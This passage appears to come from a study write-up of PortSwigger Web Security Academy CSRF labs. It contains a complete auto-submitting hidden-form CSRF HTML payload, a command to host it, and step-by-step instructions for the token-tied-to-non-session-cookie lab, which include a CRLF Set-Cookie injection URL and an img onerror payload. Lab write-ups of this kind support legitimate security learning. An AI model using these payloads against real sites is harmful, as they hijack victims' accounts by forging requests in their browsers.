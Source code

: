 - HTML payload:
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-ac941f081e38bc8480279ef400d5002f.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <input type="hidden" name="email" value="test5@test.ca">
            <input type="hidden" name="csrf" value="zXqP4oMlBXDX16q4Qb5MgFawPZXaK4bW">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>

    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

# 5. CSRF where token is tied to non-session cookie
  
This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. Send the request to Burp Repeater and observe that changing the `session` cookie logs you out, but changing the `csrfKey` cookie merely results in the CSRF token being rejected. This suggests that the `csrfKey` cookie may not be strictly tied to the session.
3. Open a private/incognito browser window, log in to your other account, and send a fresh update email request into Burp Repeater.
4. Observe that if you swap the `csrfKey` cookie and `csrf` parameter from the first account to the second account, the request is accepted.
5. Close the Repeater tab and incognito browser.
6. Back in the original browser, perform a search, send the resulting request to Burp Repeater, and observe that the search term gets reflected in the Set-Cookie header. Since the search function has no CSRF protection, you can use this to inject cookies into the victim user's browser.
7. Create a URL that uses this vulnerability to inject your `csrfKey` cookie into the victim's browser:
    `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`
8. Create and host a proof of concept exploit as described in the solution to the [CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses) lab, ensuring that you include your CSRF token. The exploit should be created from the email change request.
9. Remove the auto-submit `<script>` block, and instead add the following code to inject the cookie:
    `<img src="https://YOUR-LAB-ID.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">`
10. Change the email address in your exploit so that it doesn't match your own.
11. Store the exploit, then click "Deliver to victim" to solve the lab.
